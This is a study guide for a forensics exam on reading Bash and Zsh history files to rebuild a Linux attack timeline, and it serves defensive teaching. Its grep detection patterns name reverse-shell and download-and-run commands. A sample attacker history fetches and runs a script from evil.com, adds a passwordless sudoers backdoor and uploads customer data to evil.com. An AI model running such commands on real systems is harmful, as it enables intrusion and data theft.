




# Shell History Files (`~/.bash_history`, `~/.zsh_history`)

## TCM Exam Objectives

- Extract attacker commands from `~/.bash_history` and `~/.zsh_history` for full attack narrative reconstruction
- Convert epoch timestamps in Zsh history and Bash HISTTIMEFORMAT to human-readable timelines
- Use grep patterns to identify reverse shells, download cradles, privilege escalation, and data exfiltration
- Always check both the compromised user's history AND `/root/.bash_history` for post-escalation activity
- Detect anti-forensic indicators: zero-byte history files, `history -c`, `unset HISTFILE`, or space-prefixed commands
- Correlate shell commands with auth.log login times and syslog events for timeline validation
- Differentiate between Bash (plain text, optional timestamps) and Zsh (always has epoch timestamps) formats
- Identify lateral movement commands (ssh, scp, smbclient) and persistence setup (crontab, systemctl)
- Recognize that a missing history file for a user with confirmed login activity is itself a suspicious indicator

Shell history files are a direct transcript of every command typed into a Linux terminal. On a compromised host, `~/.bash_history` and `~/.zsh_history` record the attacker's initial compromise vector, reconnaissance commands, privilege escalation attempts, persistence mechanisms, lateral movement, and data exfiltration. These files provide the most direct evidence of what the attacker actually did on the system.

- Bash history format and timestamp configuration (HISTTIMEFORMAT)
- Zsh history format with embedded epoch timestamps
- Key grep patterns for reverse shells, downloads, privilege escalation, and exfiltration
- Anti-forensic detection (history -c, unset HISTFILE, manual deletion)
- Correlation with auth.log, syslog, and file system timestamps
- Bash and Zsh timestamp conversion commands



## Bash History

> 📌 **Exam Tip:** By default, Bash does NOT record timestamps in history files. Only if `HISTTIMEFORMAT` is set (e.g., `export HISTTIMEFORMAT="%F %T "`) will epoch timestamps appear as `#` lines before each command. Zsh, however, ALWAYS records epoch timestamps. On the exam, if you see `#1712345678` before commands, you know `HISTTIMEFORMAT` was configured.

### Format and Default Behavior

Bash stores the last N commands (controlled by `HISTSIZE` and `HISTFILESIZE`) in a plain-text file at `~/.bash_history`. Each line contains one command in chronological order, oldest first. By default, timestamps are **not recorded**. If `HISTTIMEFORMAT` is set (e.g., `export HISTTIMEFORMAT="%F %T "`), Bash writes a `#` line with the epoch timestamp before each command:

```
#1712345678
whoami
#1712345679
sudo su
```

### Timestamp Conversion

```bash
# Convert a single epoch timestamp
date -d @1712345678

# Convert entire history file to timeline
while read line; do
    if [[ $line =~ ^#[0-9]+$ ]]; then
        epoch=${line#\#}
        printf "%s " "$(date -d @$epoch '+%Y-%m-%d %H:%M:%S')"
    else
        echo "$line"
    fi
done < .bash_history > bash_history_timeline.txt
```

## Zsh History

### Format and Default Behavior

Zsh stores commands at `~/.zsh_history` with a format that always includes epoch timestamps:

```
:1712345678:0;ls -la /tmp
```

The format is `:` followed by epoch timestamp, `:`, duration in seconds, `;`, and the command.

### Timestamp Parsing

```bash
awk -F: '{if(NF>2) print strftime("%Y-%m-%d %H:%M:%S", $2), $3}' .zsh_history
```

## History File Locations

| Shell | History File Path |
|-------|-------------------|
| Bash | `~/.bash_history` or `/root/.bash_history` |
| Zsh | `~/.zsh_history` or `/root/.zsh_history` |
| Fish | `~/.local/share/fish/fish_history` |
| Ksh | `~/.sh_history` |
| Tcsh | `~/.history` |

Always check **root's history** (`/root/.bash_history` or `/root/.zsh_history`) because attackers frequently escalate to root and continue their activity from that account.

## Forensic Analysis - Key Attack Patterns

### Initial Access / Download / Execute

```bash
grep -iE '(curl.*\|.*bash|wget.*-O.*\|.*bash|curl.*-o.*\.sh|bash.*<.*curl)' ~/.bash_history
```

> 📌 **Exam Tip:** A zero-byte or absent `.bash_history` for a user with confirmed login activity (from auth.log) is itself a suspicious anti-forensic indicator. Attackers often run `history -c` or `cat /dev/null > ~/.bash_history` to cover their tracks. Document this as suspicious even if no commands are visible.

### Reverse Shells

```bash
grep -iE '(bash -i >& /dev/tcp|nc -e|python.*socket|php.*fsockopen|perl.*Socket|ruby.*TCPSocket|socat.*exec)' ~/.bash_history
```

### Privilege Escalation

```bash
grep -E '(sudo su|sudo -i|sudo /bin/bash|chmod u\+s|echo.*sudoers|linpeas|linux-exploit-suggester|find.*-perm.*4000)' ~/.bash_history
```

### Persistence

```bash
grep -E '(crontab|echo.*cron|systemctl enable|update-rc\.d|@reboot)' ~/.bash_history
```

### Data Exfiltration

```bash
grep -E '(curl.*-T|curl.*-F|wget.*--post-file|nc .* < |scp.*remote|rsync.*remote)' ~/.bash_history
```

### Lateral Movement

```bash
grep -E '(ssh |scp |smbclient|rdesktop|telnet )' ~/.bash_history
```

### Log Tampering

```bash
grep -E '(history -c|rm.*log|echo >.*log|sed.*auth.log|cat /dev/null)' ~/.bash_history
```

## Investigation Workflow



### Step 1: Identify the Suspect User

Determine which user account was compromised via auth.log analysis or alert context.

### Step 2: Locate and Read History Files

```bash
ls -la /home/<user>/.bash_history
ls -la /root/.bash_history
cat /home/<user>/.bash_history
```

Check for missing history files---a zero-byte or absent `.bash_history` for a user with login activity is an anti-forensic indicator.

### Step 3: Parse and Convert Timestamps

If Bash history has `#` epoch lines, convert to a timeline. If Zsh, parse the colon-delimited format.

### Step 4: Hunt for Malicious Commands

Run the grep patterns above for reverse shells, downloads, privilege escalation, persistence, and exfiltration.

### Step 5: Reconstruct the Attack Timeline

Sequence the commands to build a narrative:

1. Initial access (download/execute payload)
2. Reconnaissance (whoami, id, uname, network info)
3. Privilege escalation (sudo, linpeas)
4. Persistence (crontab, systemd, SSH keys)
5. Lateral movement / exfiltration

### Step 6: Corroborate with Other Logs

| Artifact | What It Confirms |
|----------|------------------|
| `auth.log` | Login time matching the start of malicious commands |
| `syslog` | Service starts, user creation events from commands |
| `dpkg.log` | Package installations matching `apt install` commands |
| File timestamps | File creation/modification matching command timestamps |
| `.ssh/authorized_keys` | New SSH keys after `ssh-keygen` in history |

<details>
<summary>Hands-On: Compromised Web Server</summary>

**Scenario**: Production web server WEB01 flagged for suspicious outbound traffic. User `www-data` reportedly exploited.

**www-data bash history** (timestamps present):
```
#1712345678
wget http://evil.com/exploit.sh -O /tmp/exploit.sh
#1712345679
bash /tmp/exploit.sh
#1712345680
whoami
#1712345681
sudo su
```

**Root bash history**:
```
#1712345685
id
#1712345686
useradd -m attacker
#1712345687
echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
#1712345688
crontab -e
#1712345689
curl -T /var/www/html/customer_data.csv http://evil.com/upload
```

**Corroboration**:
- `auth.log` confirms `sudo: www-data : USER=root ; COMMAND=/bin/su` at the matching timestamp
- `auth.log` shows `useradd` event from root at the expected time
- `/etc/sudoers` modification timestamp matches
- Network logs show outbound to `evil.com`

**Conclusion**: Web application compromise led to RCE as www-data, privilege escalation to root, backdoor user creation, and data exfiltration.
</details>

## Anti-Forensic Detection

| Technique | Evidence |
|-----------|----------|
| `history -c` | The command itself may remain in history |
| `unset HISTFILE` | May appear in shell configuration files |
| Manual file deletion | Zero-byte `.bash_history` with auth.log activity |
| Space-prefixed command | `HISTCONTROL=ignorespace` prevents recording |
| `kill -9 $$` | Exits shell without writing history |

A missing or truncated history file for a user with confirmed login activity is itself suspicious and should be documented.



## Quick Reference

### Grep Patterns

```bash
# Reverse shells and downloaders
grep -iE '(curl.*\|.*bash|wget.*-O|nc.*-e|python.*socket|bash -i|php -r|perl -e.*socket|ruby -e.*TCPSocket)' ~/.bash_history

# Privilege escalation
grep -E '(sudo|su |chmod u\+s|echo.*sudoers|find.*-perm|linpeas)' ~/.bash_history

# Persistence
grep -E '(crontab|echo.*cron|systemctl enable|update-rc\.d)' ~/.bash_history

# Data exfiltration
grep -E '(curl.*-T|wget.*--post-file|nc.*<|scp.*remote)' ~/.bash_history
```

### Timestamp Conversion

```bash
# Bash
date -d @1712345678
while read line; do [[ $line =~ ^#[0-9]+$ ]] && printf "%s " "$(date -d @${line#\#} '+%Y-%m-%d %H:%M:%S')" || echo "$line"; done < .bash_history

# Zsh
awk -F: '{if(NF>2) print strftime("%F %T", $2), $3}' .zsh_history
```



## Recap

Shell history files (`~/.bash_history`, `~/.zsh_history`) provide a direct transcript of attacker commands. Bash stores plain text with optional epoch timestamps via `HISTTIMEFORMAT`; Zsh always includes epoch timestamps. Key grep patterns identify reverse shells, downloads, privilege escalation via sudo/crontab, data exfiltration, and log tampering. Always check both the compromised user and root histories. Correlate with auth.log, syslog, and file timestamps to validate the attack timeline. Missing or cleared history files are anti-forensic indicators that should be documented as suspicious.
